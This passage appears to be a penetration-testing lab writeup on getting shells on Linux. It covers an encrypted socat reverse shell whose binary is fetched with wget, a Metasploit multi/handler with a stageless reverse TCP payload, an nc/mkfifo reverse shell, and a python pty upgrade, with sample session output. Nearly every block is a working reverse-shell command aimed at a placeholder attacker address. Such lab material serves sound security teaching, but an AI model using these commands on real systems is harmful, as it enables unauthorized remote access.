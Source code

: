 Create an `encrypted socat` listener in attacking machine.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `encrypted reverse shell` from the target.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat OPENSSL:<local-ip>:443,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained in `encrypted socat` listener.
{% capture code %}{% raw %}shell@linux-shell-practice:~$ ^C
shell@linux-shell-practice:~$ exit
logout{% endraw %}{% endcapture %} {%include code.html code=code %}


### Stageless Meterpreter Shell - Linux

Use `msfconsole` to create `multi/handler` and load the payload `linux/x64/shell_reverse_tcp`, which is `stageless`. The `exploit` is given in background, and hence sessions will not be loaded by default.
{% capture code %}{% raw %}msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST <local-ip>
LHOST => <local-ip>
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > set PAYLOAD linux/x64/shell_reverse_tcp
PAYLOAD => linux/x64/shell_reverse_tcp
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <local-ip>:443 {% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `reverse shell` from the attacker.
{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained indicating the connection established to `msfconsole` terminal.
{% capture code %}{% raw %}(UNKNOWN) [<local-ip>] 443 (https) open{% endraw %}{% endcapture %} {%include code.html code=code %}

In the `msfconsole` terminal, bring the session to foreground for interaction. Use `python` to spawn `bash` shell. The session will be stabilised and sanitised by default by `msfconsole`.
{% capture code %}{% raw %}msf5 exploit(multi/handler) > [*] Command shell session 1 opened (<local-ip>:443 -> <target-ip>:45512) at 2021-04-13 11:13:18 +0100

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

python3 -c 'import pty; pty.spawn("/bin/bash")'
shell@linux-shell-practice:~$ ^C
Abort session 2? [y/N]  y

[*] <target-ip> - Command shell session 2 closed.  Reason: User exit
msf5 exploit(multi/handler) >{% endraw %}{% endcapture %} {%include code.html code=code %}
